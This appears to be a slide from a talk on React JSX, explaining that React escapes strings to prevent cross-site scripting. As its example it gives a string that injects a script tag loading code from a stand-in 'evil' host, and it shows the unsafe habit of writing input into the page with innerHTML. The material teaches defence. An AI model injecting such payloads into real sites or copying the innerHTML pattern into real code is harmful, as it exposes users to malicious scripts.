

JSX

Anti-XSS
React escapes all strings in order to prevent a class of XSS (Cross-site scripting) attacks.

So when you ask the user to give  some input and they provide a malicious string, React protects you.

var firstname = ‘Sri<scr'+'ipt src="http://evil/co.js"></scr'+'ipt>';

If you naively write this input into the DOM, like:
document.getElementById('app').innerHTML = firstname;
i. then this is a disaster because the page will say “Sri”, but the <script> tag will load a malicious JavaScript and compromise your app.